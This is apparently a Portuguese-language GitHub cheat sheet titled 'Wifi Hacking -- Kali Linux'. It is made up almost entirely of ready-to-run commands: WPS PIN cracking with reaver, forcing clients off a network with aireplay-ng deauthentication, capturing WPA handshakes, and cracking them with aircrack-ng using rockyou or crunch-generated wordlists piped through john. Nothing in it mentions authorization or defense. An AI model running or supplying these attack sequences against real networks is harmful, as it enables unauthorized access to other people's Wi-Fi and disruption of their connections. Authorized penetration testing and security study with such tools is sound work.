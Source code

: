 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00 -vv` - Inicia o ataque Reaver.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Inicia o ataque Reaver com parâmetros de intervalos opcionais.

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `airodump-ng wlan0mon` - Ativa a descoberta de redes disponiveis na interface wlan0mon.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura de pacotes do equipamento de rede alvo.
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Executado em terminal paralelo, força a desconexão dos dispositivos da rede alvo.
* Havendo sucesso na captura do pacote de autenticação, no terminal que executa o monitoramento aparecerá a seguinte mensagem: 'WPA handshake'.
* Em posse do pacote capturado com a senha criptografada, devemos quebrar a senha utilizando Wordlists.
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux.
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo rockyou.txt.gz deletando o arquivo zipado.
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist especificado.
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou.txt gerando um novo arquivo que contenha apenas senhas no padrão WPA/WPA2 (8-63 caracteres).

#### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch.
*  lowUP123@%# (Minúsculas,maiúsculas,números e símbolos) - Ordem de Charset no Crunch.
* Parâmetros do Crunch:
    * -b : Tamanho máximo da lista de palavras (requer -o START).
    * -c : Número de linhas para escrever na lista de palavras (requer -o START).
    * -d : Limita o número de caracteres duplicados.
    * -e : Interrompe a geração de palavras em uma determinado string.
    * -f : Especifica uma lista de conjuntos de caracteres do arquivo charset.lst.
    * -i : Inverte a ordem dos caracteres na lista de palavras.
    * -l : Permite a interpretação literal de @,% ^ ao usar -t.
    * -o : O arquivo de lista de saída.
    * -p : Imprime permutações sem repetir caracteres (não pode ser usado com -s).
    * -q : Como a opção -p, exceto a leitura das sequências de um arquivo especificado.
    * -r : Retoma uma sessão anterior (não pode ser usada com -s).
    * -s : Especifique uma string para iniciar a lista de palavras.
    * -t : Define um padrão específico de @,% ^.
    * -z : Comprime o arquivo da lista de saída, acompanhado de -o.
 * Refêrencia do Crunch:
    * @ : Representa letras minúsculas.
    * , : Representa letras maiúsculas.
    * % : Representa números.
    * ^ : Representa caracteres especiais.
 * Lista Charset: /usr/share/crunch/charset.lst:
    * Conjunto de caracteres disponíveis no arquivo charset.lst:
      * lalpha : Letras minúsculas.
      * ualpha : Letras maiúsculas.
      * lalpha-numeric : Letras minúsculas e números.
      * ualpha-numeric : Letras maiúsculas e números.
      * lalpha-numeric-all-space : Letras minúsculas, números e caracteres especiais.
      * ualpha-numeric-all-space : Letras maiúsculas, números e caracteres especiais.
      * mixalpha : Letras minúsculas e maiúsculas.
      * mixalpha-numeric-all-space : Letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 

* `crunch 4 6 1234567890 -o MinhaWordlist01.txt` - Exemplo: Gera lista numérica com palavras de 4 a 6 caracteres e armazena resultado. 
* `crunch 9 9 1234567890 -t palavra@@@@ -o MinhaWordlist02.txt` - Exemplo: Gera lista com parte da palavra fixa de 9 caracteres e variação numérica, armazenando resultado.
* `crunch 4 8 -f charset.lst mixalpha -o MinhaWordlist03.txt` - Exemplo: Gera lista com palavras de 4 a 8 caracteres utilizando charset de letras minusculas e maiusculas e armazena resultado.
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o MinhaWordlist04.txt` - Exemplo: Gera lista com palavra de tamanho 8 combinando variáveis charset e palavras fixas armazenando resultado. 
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o MinhaWordlist05.txt` - Exemplo: Gera lista com palavra de tamanho 4 utilizando todos os caracteres possíveis do charset e armazena resultado.
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavra de tamanho 8 que contenha letras letras e números especificados passando diretamente para o software aircrack; não armazena resultado. 
* `crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavras de tamanho 8 apenas com o padrão letras minúsculas do alfabeto passando diretamente para o software aircrack; Diferencial utiliza o software john para guardar o progresso de execução.
* `crunch 8 8 | john --restore=session1 | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Restaura execução da geração de lista passada diretamente para o software aircrack.
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  
https://www.thinklinux.com.br/?p=130  
https://cibersegurancawernik.blogspot.com/2018/01/capturando-pacotes-wifi-aircrack-e.html  




